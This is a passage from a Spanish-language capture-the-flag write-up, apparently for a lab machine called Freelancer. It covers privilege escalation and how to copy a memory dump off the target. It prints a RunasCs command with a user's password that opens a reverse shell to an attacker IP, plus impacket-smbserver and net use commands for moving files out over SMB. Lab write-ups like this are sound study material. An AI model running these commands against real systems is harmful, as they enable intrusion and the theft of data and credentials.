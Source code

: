 ```
RunasCs.exe mikasaAckerman IL0v3ErenY3ager cmd.exe -r 10.10.14.11:444
```
![mika](../../../../../assets/Freelancer/mika.png)

este usario si que tiene la flag en el escritorio :).

## Escalando privilegios

En el mismo Desktop encontramos dos archivos mas, uno es un correo en el cual sereporta que devido a un error provocado por la actualizacion se ha enviado un volcado de la memoria y se te ha enviado. 

En este momento es conveniente descargarnos el volcado que es un .7z,hay muchas maneras de hacerlo. pero esta es la que aprendi hace años y la verdad es que nunca da problemas, pienso que es la mejor manera de aprenderla y que funcione en cualquier equipo.

###### Compartiendo archivos con impacket-smbserver

El funcionamiento es el siguiente, levanataremos un servidor **SMB** para compartir archivos.

```
impacket-smbserver <nombreSMB> $(pwd) -smb2support -username <name> -password <password>

```

Luego desde la maquina victima, haremos dos movimientos, primero montaremos nuestro recurso SMB.

```
net use \\10.10.11.5\<nombreSMB> /u:<name> <pass>
```

![mySMB1](../../../../../assets/Freelancer/mySMB1.png)

Esto nos indica que nos hemos conectado correctamente y departe de nuestro servidor SMB montado veremos lo siguiente.

![mySMB2](../../../../../assets/Freelancer/mySMB2.png)
